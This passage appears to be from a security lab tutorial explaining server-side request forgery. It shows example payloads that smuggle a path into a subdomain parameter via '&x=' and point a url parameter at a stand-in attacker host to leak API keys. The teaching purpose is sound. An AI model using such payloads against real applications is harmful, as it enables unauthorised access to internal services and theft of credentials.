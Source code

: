 In another possible scenario, the web application may require the user to specify the subdomain to which the request is being made. For example, the user has to send the request: `http://website.thm/stock?server=api&id=123`. Then, the application crafts the request to the backend in the following manner:

```
http://<server>.website.thm/api/stock/item?id=<id>
```

For a SSRF attack, the attacker can send the request: `http://website.thm/stock?server=api.website.thm/api/user/&x=&id=123`. The web application then constructs the request to the backend as

```
http://api.website.thm/api/user?x=.website.thm/api/stock/item?id=123.
```

We see that the `&x=` in the payload turns into a query string `x=api.website.thm/api/stock/item?id=123`, which is not required by the `/user` page and is simply ignored.

![SSRF example 3](./img/ssrf_eg_3.png "SSRF example 3")

Going back to the very first example, the attacker can also force the web application to send a request to a server of the attacker's choice. The payload would look like `http://website.thm/stock?url=http://hacker-domain.thm`, and this may cause the application to reveal its API keys.
